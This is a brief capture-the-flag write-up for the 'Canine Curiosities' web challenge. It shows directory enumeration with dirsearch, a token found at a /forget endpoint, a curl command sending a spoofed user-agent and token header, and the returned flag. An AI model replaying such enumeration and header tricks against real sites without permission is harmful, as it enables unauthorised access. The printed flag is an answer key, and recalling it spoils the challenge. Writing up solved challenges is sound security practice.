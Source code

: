 # Canine Curiosities
- Used dirsearch on url: https://canine-curiosities.vercel.app to find [url/app.js](https://canine-curiosities.vercel.app/app.js)  .

- Found the token from [url/forget](https://canine-curiosities.vercel.app/forget) and then used 'cux' as user-agent to retrieve flag from [url/fact](https://canine-curiosities.vercel.app/fact) .

- Used the following command in terminal :
    ```
  $ curl -H "user-agent:cux" -H "token:fec62644-6db3-11ee-a34a-505bc2eeff4f" https://canine-curiosities.vercel.app/fact
    ```
- Got the following result:
    ```
    {"fact":"cruXipher{m0n15h4_f0R_pR0m_qV33n}"}
    ```

## Flag
```
cruXipher{m0n15h4_f0R_pR0m_qV33n}
```
